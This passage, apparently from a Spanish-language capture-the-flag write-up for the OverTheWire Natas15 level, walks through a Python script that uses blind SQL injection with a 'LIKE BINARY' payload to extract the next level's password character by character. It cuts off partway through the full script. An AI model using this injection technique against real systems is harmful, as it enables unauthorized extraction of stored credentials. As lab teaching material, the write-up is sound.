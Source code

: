Ahora definiremos la función `force_brute_attack()`con la comprometeremos la página víctima
Los pasos del script son los siguientes 

* Obtenemos los caracteres y dígitos ascii del módulo string de python.
* Creamos barras de progreso.
* Iteramos sobre los caracteres de la columna password.
* Definimos una la variable para detener el script cuando ya obtengamos la password.
* Hacemos la petición al servidor
* Si la respuesta en texto contiene la frase "this user exits" entonces agregamos el caracter a la variable password y continuamos con el próximo carácter a encontrar de la columna password
* finalmente devolvemos la password encontrada

```python

def force_brute_attack():
    # 1 get characters 
    characters = f'{string.ascii_letters}{string.digits}'
    natas16_pass = ''
    # 2 progress bar 
    attackProgress = log.progress('Brute force attack')
    attackProgress.status('Starting attack')
    passwordHackedProgress = log.progress('Password for natas16')
    # 3 itering on password column
    while True:
        found = False
        # 4 iteraing over characters
        for c in characters:
            attackProgress.status(f'trying with {c} character')
            injection = f'natas16" AND password LIKE BINARY "{natas16_pass}{c}%" #'
            # making http request
            res = make_request(injection)
            # 5 true when character is valid
            if 'This user exists' in res:
                natas16_pass += c
                passwordHackedProgress.status(natas16_pass)
                found = True
                break
        # break the cicle when password were found    
        if found == False:
            break
    
    attackProgress.success(f'Password found {natas16_pass}')
    return natas16_pass

```

Finalmente el script queda de la siguiente manera:

```python
import requests, os, sys
from pwn import *
from requests.auth import HTTPBasicAuth
import urllib.parse
import string, signal

user = 'natas15'
password = '' 
url = f"http://{user}.natas.labs.overthewire.org"


def make_request(username):
    auth = HTTPBasicAuth(user, password)
    res = requests.get(url, auth=auth, params={ 'debug': 'true', 'username': username  })
    return res.text

def def_handler(sig, frame):
```